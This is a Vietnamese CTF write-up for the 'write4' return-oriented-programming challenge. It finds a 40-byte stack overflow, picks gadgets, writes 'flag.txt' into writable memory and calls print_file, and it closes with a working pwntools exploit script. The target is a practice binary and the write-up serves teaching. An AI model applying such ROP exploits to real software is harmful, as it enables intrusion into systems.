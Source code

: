**1. Tìm lỗi**

Dùng lệnh file để kiểm tra 

![file.png](photo/file.png)

Là file elf 64 bit -> mở bằng ida64 ta có như sau:

![main.png](photo/main.png)

Hàm pwnme:

![pwnme.png](photo/pwnme.png)

Ta thấy khoảng cách từ biến đến ret là : 0x20 + 0x8 = 40. Chương trình cho phép nhập 0x200 = 512 byte nên có thể nhập tràn đến ret

Hàm usefulFunction:

![use.png](photo/use.png)

Hàm printf_file: 0x0000000000400693

![print_file.png](photo/print_file.png)

Ta thấy ở hàm print_file thì truyền tên file vào thanh ghi rdi thì sẽ thực hiện in nội dung file đó nên có ý tưởng là truyền flag.txt vào rdi

![pop_rdi.png](photo/pop_rdi.png)

Địa chỉ câu lệnh pop rdi là:

Hàm usefulGadgets:

![gad.png](photo/gad.png)

**2. Ý tưởng**

Ta thấy ở hàm usefulGadgets có câu lệnh mov [r14], r15 nên lợi dụng điều này để ghi flag.txt vào thanh ghi 14 rồi truyền sang rdi và thực hiện gọi hàm printf_flag

![pop_r14.png](photo/pop_r14.png)

Ta thấy địa chỉ 0x0000000000400690 chứa câu lệnh pop r14 và pop r15 nên ý tưởng trên hoàn toàn thực hiện được

**3. Viết script**

Chúng ta cần phải kiếm địa chỉ còn trống để ghi chuỗi vào:

![vmmap.png](photo/vmmap.png)

Ta thấy địa chỉ 0x601030 còn trống nên có thể ghi vào

![call.png](photo/call.png)

Địa chỉ câu lệnh gọi hàm print_file là: 0x0000000000400620

Ta có script như sau:

```
from pwn import *
r = process("./write4")

def asscii2hex(value):
    result = ""
    for i in value:
        result += hex(ord(i))[2:]
    return result

def toAddr(value):
    length = len(value)
    result = "0x"
    for i in range(length-1, 0, -2):
        result += value[i-1] + value[i]
    return result

def process(value):
    return int(toAddr(asscii2hex(value)), 16)



pop = 0x0000000000400690
mov = 0x400628
r14 = 0x601030
r15 = process("flag.txt")
pop_rdi = 0x0000000000400693
printf_file = 0x0000000000400620

payload = b'a'*40
payload += p64(pop)
payload += p64(r14) + p64(r15)
payload += p64(mov)
payload += p64(pop_rdi)
payload += p64(r14)
payload += p64(printf_file)
print(payload)
r.sendafter(b'> ', payload)

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
